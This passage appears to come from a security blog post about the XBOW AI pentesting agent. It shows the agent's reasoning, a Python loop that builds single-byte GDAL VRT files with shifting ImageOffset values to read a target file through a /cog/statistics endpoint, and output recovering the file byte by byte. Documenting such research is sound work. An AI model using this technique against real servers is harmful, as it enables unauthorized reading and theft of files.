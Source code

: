 ![](https://xbow.com/sparkle-white.webp)

#### Precision Reading: Byte-by-Byte Exfiltration

XBOW hit a wall again, but then its creative problem-solving kicked in. What about combining the two approaches? Let’s try a VRT that reads a single byte but instead of fetching the image, let’s fetch the histogram of the byte values. This will reveal the flag bytes.

```
Let me try a different approach: creating multiple small VRT files that each read a single byte from
different offsets in the target file. This way I can use the `/cog/statistics` endpoint (which
worked before) to get the value of each individual byte.
```

![](https://xbow.com/sparkle-white.webp)

For the ultimate precision, XBOW developed a technique to read files one byte at a time by adjusting the `ImageOffset` parameter:

```
...

# I'll read the first 32 bytes to start with (to avoid too many requests)
# If this works, I can extend to all 64 bytes
num_bytes_to_read = 32

raw_bytes = [None] * num_bytes_to_read

for offset in range(num_bytes_to_read):
    print(f"Reading byte at offset {offset}...")

    # Create a VRT that reads 1 byte from the specified offset
    vrt_content = f"""<VRTDataset rasterXSize="1" rasterYSize="1">
      <VRTRasterBand dataType="Byte" band="1" subClass="VRTRawRasterBand">
        <SourceFilename relativeToVRT="0">/vsicurl/{target_file}</SourceFilename>
        <ImageOffset>{offset}</ImageOffset>
        <PixelOffset>1</PixelOffset>
        <LineOffset>1</LineOffset>
        <ByteOrder>LSB</ByteOrder>
      </VRTRasterBand>
    </VRTDataset>
    """
...
```

![](https://xbow.com/sparkle-white.webp)

This technique could systematically extract any file, one byte at a time, with perfect accuracy.

```
Creating multiple 1x1 VRT files to read individual bytes from different offsets...
 ======================================================================
 Reading byte at offset 0...
   Offset 0: 60 ('<')
 Reading byte at offset 1...
   Offset 1: 104 ('h')
 Reading byte at offset 2...
   Offset 2: 116 ('t')
 Reading byte at offset 3...
   Offset 3: 109 ('m')
 Reading byte at offset 4...
   Offset 4: 108 ('l')
 Reading byte at offset 5...
   Offset 5: 62 ('>')
 Reading byte at offset 6...
```